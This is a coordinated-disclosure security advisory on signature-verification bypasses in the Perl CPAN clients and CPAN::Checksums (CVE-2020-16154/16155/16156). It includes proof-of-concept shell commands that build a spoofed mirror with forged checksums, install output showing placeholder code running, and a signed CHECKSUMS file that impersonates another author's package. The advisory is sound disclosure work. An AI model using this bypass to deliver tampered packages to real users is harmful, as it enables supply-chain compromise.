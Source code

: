 ```yaml
---
layout: post
title: "Signature Verification Vulnerabilities in CPAN.pm, cpanminus and CPAN::Checksums"
author: sgo
category: security
---
```


[CPAN](https://www.cpan.org/) is a repository of over 200,000 modules for the
Perl programming language. [PAUSE](https://pause.cpan.org/) is the "[Perl
programming] Authors Upload Server".

To install Perl modules from CPAN, users can use the `cpan` client provided by
[CPAN.pm](https://metacpan.org/dist/CPAN) included in the Perl core,
or the `cpanm` client provided by
[cpanminus](https://metacpan.org/pod/App::cpanminus).

Both clients have optional support for verifying that `CHECKSUMS` files have a
valid PAUSE PGP signature before checksums are checked and modules are installed.

It was found that `cpan` and `cpanm` are vulnerable to a signature verification
bypass. Additionally, `CPAN::Checksums` (used by PAUSE) does not uniquely
identify packages in the signed `CHECKSUMS` file, enabling a supply chain
attack.

* [CVE-2020-16154] App::cpanminus 1.7044 allows Signature Verification Bypass
* [CVE-2020-16155] CPAN::Checksums 2.12 does not uniquely define signed data.
* [CVE-2020-16156] CPAN 2.28 allows Signature Verification Bypass

For more information see [Addressing CPAN vulnerabilities related to checksums](http://blogs.perl.org/users/neilb/2021/11/addressing-cpan-vulnerabilities-related-to-checksums.html) by Neil Bowers.

# Mitigation

Users should ensure that their CPAN client is configured to use a trusted TLS
(https) protected mirror as signature verification can be bypassed, and signed
`CHECKSUMS` cannot be relied upon for security.



# Signature Verification Bypass

[CVE-2020-16154, CVE-2020-16156]

An attacker can prepend checksums for modified packages to the beginning of
`CHECKSUMS` files, before the cleartext PGP headers. This makes the
`Module::Signature::_verify()` checks in both `cpan` and `cpanm` pass.

Without the `sigtext` and `plaintext` arguments to `_verify()`, the `_compare()`
check is bypassed. This results in `_verify()` only checking that valid signed
cleartext is present somewhere in the file.

## Proof of Concept

First, `Module::Signature` needs to be installed. Then prepare a malicious CPAN
mirror containing a modified package. 

In this example, we spoofed the popular `Mojolicious` package to illustrate:

```shell
mkdir -p cpan/{authors,modules}
wget -O cpan/authors/01mailrc.txt.gz https://cpan.metacpan.org/authors/01mailrc.txt.gz
wget -O cpan/modules/02packages.details.txt.gz https://cpan.metacpan.org/modules/02packages.details.txt.gz
wget -O cpan/modules/03modlist.data.gz https://cpan.metacpan.org/modules/03modlist.data.gz
mkdir -p cpan/authors/id/S/SR/SRI
pushd cpan/authors/id/S/SR/SRI
wget -O CHECKSUMS_ORIG https://cpan.metacpan.org/authors/id/S/SR/SRI/CHECKSUMS
module=Mojolicious-8.56
mkdir $module
echo 'print "### INSERT MALICIOUS CODE HERE ###\n";' > $module/Makefile.PL
tar czf $module.tar.gz $module
sha256=$(sha256sum $module.tar.gz | cut -d' ' -f1)
(echo -en "\$chksum = { '$module.tar.gz' => { sha256 => '$sha256'} };\n__END__\n"; cat CHECKSUMS_ORIG) > CHECKSUMS
popd
cd cpan
# Then serve the repo locally on port 8000
busybox httpd -f -p 8000
```

### CPAN.pm

Prepare environment:
- Install the required signature checker extension
- Add http://localhost:8000 to your `urllist`
- enable `check_sigs`.

```shell
$ cpan Module::Signature
$ cat <<EOF |cpan
o conf check_sigs 1
o conf urllist unshift http://localhost:8000
o conf commit
EOF
```

Demonstrate unsigned code execution:

```shell
$ cpan SRI/Mojolicious-8.56.tar.gz
[..]
Signature for /home/user/.cpan/sources/authors/id/S/SR/SRI/CHECKSUMS ok
Checksum for /home/user/.cpan/sources/authors/id/S/SR/SRI/Mojolicious-8.56.tar.gz ok
[..]
Configuring S/SR/SRI/Mojolicious-8.56.tar.gz with Makefile.PL
### INSERT MALICIOUS CODE HERE ###
No 'Makefile' created  SRI/Mojolicious-8.56.tar.gz
  /nix/store/kfrlhcjp3hp7vs83y701xzd542k8sm7k-perl-5.30.3/bin/perl Makefile.PL -- NOT OK
```


### App::cpanminus

```shell
$ cpanm --local-lib=$(mktemp -d) -v --verify --mirror http://localhost:8000/ Mojolicious@8.56
[..]
Verifying the signature of CHECKSUMS
Verified OK!
Verifying the SHA1 for Mojolicious-8.56.tar.gz
Checksum for Mojolicious-8.56.tar.gz: Verified!
Unpacking Mojolicious-8.56.tar.gz
[..]
Running Makefile.PL
Configuring Mojolicious-8.56 ... ### INSERT MALICIOUS CODE HERE ###
N/A
! Configure failed for Mojolicious-8.56. See /home/user/.cpanm/work/1596121570.28866/build.log for details.
```

# CPAN::Checksums does not uniquely define signed data

[CVE-2020-16155]

`CPAN::Checksums` generates `CHECKSUMS` recursively for each directory under the
`author/` directory structure, and the file path for the packages in the
manifest doesn't contain an author handle (filenames are only unique per
author).

An attacker with PAUSE access can trick PAUSE into generating a valid
`CHECKSUMS` file for another authors package, allowing a malicious mirror or
network attacker to serve a modified package to a target along with a valid but
malicious `CHECKSUMS` file.

## Proof of Concept

A `CHECKSUMS` file impersonating the already published package
`Acme::Study::Perl 0.0.1` has been generated on `pause.cpan.org` and signed by
the PAUSE PGP key.

```perl
0&&<<''; # this PGP-signed message is also valid perl
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA1

# CHECKSUMS file written on Fri Jul 24 15:59:10 2020 GMT by CPAN::Checksums (v2.12)
$cksum = {
  'Acme-Study-Perl-0.0.1.tar.gz' => {
    'md5' => 'd474ea9bf1861d696f05fbfc9e845f77',
    'md5-ungz' => '9614de46e57904130b6f75c0fe8fdd22',
    'mtime' => '2020-07-24',
    'sha256' => 'f239031b672604dafe456909ba3121f0c002e135bbc394fafd072397ecfadc99',
    'sha256-ungz' => 'cef212349a6beb0622193e22d92a21dc9dd7bb2f6d7f79ac0d863188efef0282',
    'size' => 211
  },
  'test.txt' => {
    'md5' => '5150d35ce48639c7c78cffe84891faab',
    'mtime' => '2020-07-24',
    'sha256' => '5d0d196ae349adf45246252d303885db3adfa723139ad5147fe7a767ded1f5b4',
    'size' => 51
  }
};
__END__
-----BEGIN PGP SIGNATURE-----
Version: GnuPG v2.0.14 (GNU/Linux)

iEYEARECAAYFAl8bBU4ACgkQMo2oZ0UPiewySQCfd00WKH3QfVO/GjcYvDosimBs
44AAoJZGxbOludHf6JYItrNOSBq1BHVA
=6gsJ
-----END PGP SIGNATURE-----
```

# Timeline

* 2020-07-08: The Perl Security team was notified
* 2020-07-15: The module authors were notified
* 2020-07-30: CVE numbers assigned
* 2021-11-18: Publication agreed for 23 nov
* 2021-11-23: Coordinated disclosure

# References

- [http://blogs.perl.org/users/neilb/2021/11/addressing-cpan-vulnerabilities-related-to-checksums.html](http://blogs.perl.org/users/neilb/2021/11/addressing-cpan-vulnerabilities-related-to-checksums.html)
- [https://github.com/andk/cpan-checksums](https://github.com/andk/cpan-checksums)
- [https://github.com/andk/cpanpm/blob/ac0963601fe22c3a0b6cc9a8f0d51da5fd6e41ef/lib/CPAN/Distribution.pm#L1474](https://github.com/andk/cpanpm/blob/ac0963601fe22c3a0b6cc9a8f0d51da5fd6e41ef/lib/CPAN/Distribution.pm#L1474)
- [https://github.com/miyagawa/cpanminus/blob/7b574ede70cebce3709743ec1727f90d745e8580/Menlo-Legacy/lib/Menlo/CLI/Compat.pm#L1491](https://github.com/miyagawa/cpanminus/blob/7b574ede70cebce3709743ec1727f90d745e8580/Menlo-Legacy/lib/Menlo/CLI/Compat.pm#L1491)

# Acknowledgements

Thanks to Andreas König, Neil Bowers, Hamish Coleman, Alexander Kjäll and Salve J. Nilsen.

Authored by Stig Palmquist
